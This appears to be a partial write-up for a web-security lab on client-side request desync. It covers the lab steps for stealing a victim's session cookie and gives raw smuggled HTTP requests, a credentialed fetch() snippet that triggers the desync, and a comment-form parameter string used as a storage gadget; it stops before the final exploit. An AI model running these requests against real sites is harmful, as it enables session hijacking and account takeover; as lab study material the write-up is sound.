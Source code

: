 ```(to be completed from soultion below...)```

To solve the lab:

    Identify a client-side desync vector in Burp, then confirm that you can replicate this in your browser.

    Identify a gadget that enables you to store text data within the application.

    Combine these to craft an exploit that causes the victim's browser to issue a series of cross-domain requests that leak their session cookie.

    Use the stolen cookie to access the victim's account.

solution:
1. Identify a client-side desync vector in Burp
**request1** in group send:
```
POST / HTTP/1.1
Host: 0a22009703bb73a2c21b484400ab00eb.web-security-academy.net
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```
**request 2** in group send:
```
POST / HTTP/1.1
Host: 0a22009703bb73a2c21b484400ab00eb.web-security-academy.net
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```
2. replicate in browser: in exploit server on incognito session, open devtool/console and write the request as a fetch command (the CORS is to prevent the /en redirection):
```js
fetch('https://0a22009703bb73a2c21b484400ab00eb.web-security-academy.net', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include',
}).catch(() => {
        fetch('https://0a22009703bb73a2c21b484400ab00eb.web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

3. Identify a gadget that enables you to store text data within the application: use the comment section by changing the order of the parameters (so comment will be at the end) and leave it empty:
```
csrf=ZkkNzRQvySXZaQk7VfgMDdDJEiY3pLqr&postId=5&name=test&email=test@gmail.clom&website=http://Abla.com&comment=
```
